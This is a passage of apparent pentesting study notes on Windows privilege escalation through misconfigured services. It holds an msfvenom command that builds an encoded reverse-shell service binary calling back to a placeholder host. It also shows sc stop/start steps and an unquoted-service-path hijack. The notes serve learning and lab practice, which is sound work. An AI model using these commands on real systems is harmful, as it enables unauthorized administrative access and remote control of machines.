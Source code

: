 # windows

## Enumeration

run scripts such as PowerUp (PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.) and Winpeas.

## Writable and restartable services

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>an example</p></figcaption></figure>

in this example we can replace `ASCService.exe` with a payload and get a root reverse shell.

`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`

then restart the service:

```powershell
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemService9
[output...]
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemService9
```

## Unquoted service path

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

we can exploit this vulnerability by putting a payload named `Advanced.exe` in `C:\Program Files (x86)\IObit\`.

then again restart the service and the payload gets executed.

```
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemService9
[output...]
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemService9
```

explenation at [https://juggernaut-sec.com/unquoted-service-paths/](https://juggernaut-sec.com/unquoted-service-paths/).

eg.

if we have a service at **C:\Program Files\Juggernaut Prod\Production Tools\Juggernaut.exe**

Since there are spaces and no quotes in the file path to the service executable, the service will attempt to start by treating each part of the folder name before the space as an executable that resides in the previous folder, like so:

* C:\Program.exe
* C:\Program Files\Juggernaut.exe
* C:\Program Files\Juggernaut Prod\Production.exe
* C:\Program Files\Juggernaut Prod\Production Tools\Juggernaut.exe
